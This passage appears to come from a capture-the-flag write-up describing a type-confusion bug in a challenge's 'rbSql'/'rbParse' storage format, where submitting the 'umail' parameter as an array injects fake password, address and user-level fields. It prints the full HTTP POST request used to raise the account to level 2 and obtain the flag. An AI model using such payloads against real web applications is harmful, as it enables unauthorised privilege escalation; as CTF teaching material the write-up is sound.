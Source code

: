 ```
  	STR
  	  (length of mail)
  	  mail
  	STR
  	  (length of pw)
  	  pw
  	STR
  	  (length of ip)
  	  ip
  	STR
  	  (length of lvl)
  	  lvl
```

Our input data is stored the tail of the file. Since `pw`, `ip`, `id`, `lvl` is difficult to control, we use `mail` to overwrite the data behind it. When we pass `mail` to server as a array, we can write as much data into the file as we want. When `rbParse` function parse the email, the buggy function will consider the `mail` as a STR instead of an ARR. So let's see our payload:

```html
POST /a/b/?page=join_chk HTTP/1.1
Host: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Content-Length: 101
Cache-Control: max-age=0
Origin: http://59.108.116.175:9902
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://59.108.116.175:9902/a/b/?page=join
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ff02df7dc3800b1b0b51c47068600d3e
Connection: close

uid=n0b0dy&umail[]=he&umail[]=f57de2db3c42252c1c1fc931bdbdee98&umail[]=127.0.0.2&umail[]=2&upw=n0b0dy
```

We pass `umail` to rbSql as a array, and the length of the array is 4. The first element in array is the fake `umail`, whose length should be array length minus the length of metadata(STR, length of string). So the length of `umail` should be 2. The second element is the fake password, which is the md5 value of `upw` string. The second element is the remote address, which can be any string in our payload. Then the last element is the user level, which should be set to "2" to get flag. The original data follows or payload will not be parsed. Send the payload then login, we can get the flag.
